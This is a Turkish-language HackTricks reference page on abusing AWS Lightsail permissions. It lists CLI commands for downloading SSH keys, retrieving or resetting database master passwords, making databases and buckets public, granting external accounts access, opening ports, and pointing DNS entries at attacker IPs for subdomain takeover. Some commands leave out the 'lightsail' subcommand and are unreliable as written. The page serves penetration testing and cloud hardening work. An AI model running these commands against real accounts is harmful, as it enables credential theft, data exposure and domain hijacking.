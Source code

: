 # AWS - Lightsail Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Lightsail

Lightsail hakkında daha fazla bilgi için kontrol edin:

{{#ref}}
../aws-services/aws-lightsail-enum.md
{{#endref}}

> [!WARNING]
> Lightsail'in **kullanıcının IAM rollerini kullanmadığını** ancak bir AWS yönetilen hesabına ait olduğunu belirtmek önemlidir, bu nedenle bu hizmeti privesc için kötüye kullanamazsınız. Ancak, bu hizmette **duyarlı veriler** olarak kod, API anahtarları ve veritabanı bilgileri bulunabilir.

### `lightsail:DownloadDefaultKeyPair`

Bu izin, örneklere erişmek için SSH anahtarlarını almanıza olanak tanır:
```
aws lightsail download-default-key-pair
```
**Olası Etki:** Örneklerin içinde hassas bilgileri bulmak.

### `lightsail:GetInstanceAccessDetails`

Bu izin, örneklere erişmek için SSH anahtarları oluşturmanıza olanak tanır:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Olası Etki:** Örneklerin içinde hassas bilgileri bulmak.

### `lightsail:CreateBucketAccessKey`

Bu izin, size kovaya erişim sağlamak için bir anahtar almanıza olanak tanır:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Olası Etki:** Kova içinde hassas bilgileri bulma.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Bu izin, veritabanına erişim için kimlik bilgilerini almanıza olanak tanır:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Olası Etki:** Veritabanında hassas bilgileri bulmak.

### `lightsail:UpdateRelationalDatabase`

Bu izin, veritabanına erişim için şifreyi değiştirmenize olanak tanır:
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
Eğer veritabanı kamuya açık değilse, bu izinlerle kamuya açık hale getirebilirsiniz.
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
**Olası Etki:** Veritabanında hassas bilgileri bulma.

### `lightsail:OpenInstancePublicPorts`

Bu izin, portları İnternete açmaya olanak tanır.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Olası Etki:** Hassas portlara erişim.

### `lightsail:PutInstancePublicPorts`

Bu izin, portları İnternet'e açmaya olanak tanır. Bu çağrının, belirtilmeyen herhangi bir açılan portu kapatacağını unutmayın.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Olası Etki:** Hassas portlara erişim.

### `lightsail:SetResourceAccessForBucket`

Bu izin, bir örneğe ek kimlik bilgileri olmadan bir kovaya erişim verme imkanı tanır.
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
**Olası Etki:** Hassas bilgilere sahip bucket'lara potansiyel yeni erişim.

### `lightsail:UpdateBucket`

Bu izinle bir saldırgan, kendi AWS hesabına bucket'lar üzerinde okuma erişimi verebilir veya bucket'ları herkes için halka açık hale getirebilir:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Olası Etki:** Hassas bilgileri içeren bucket'lara potansiyel yeni erişim.

### `lightsail:UpdateContainerService`

Bu izinlerle bir saldırgan, konteyner hizmetinden özel ECR'lere erişim verebilir.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Olası Etki:** Özel ECR'den hassas bilgileri elde etme

### `lightsail:CreateDomainEntry`

Bu izne sahip bir saldırgan, alt alan adı oluşturabilir ve bunu kendi IP adresine yönlendirebilir (alt alan adı ele geçirme), ya da alan adından e-postaları sahtelemek için bir SPF kaydı oluşturabilir, hatta ana alan adını kendi IP adresine ayarlayabilir.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Olası Etki:** Bir alan adını ele geçirmek

### `lightsail:UpdateDomainEntry`

Bu izne sahip bir saldırgan, alt alan adı oluşturabilir ve bunu kendi IP adresine yönlendirebilir (alt alan adı ele geçirme), ya da alan adından e-posta sahteciliği yapmasına olanak tanıyan bir SPF kaydı oluşturabilir, hatta ana alan adını kendi IP adresine ayarlayabilir.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Olası Etki:** Bir alanı ele geçirmek

{{#include ../../../banners/hacktricks-training.md}}
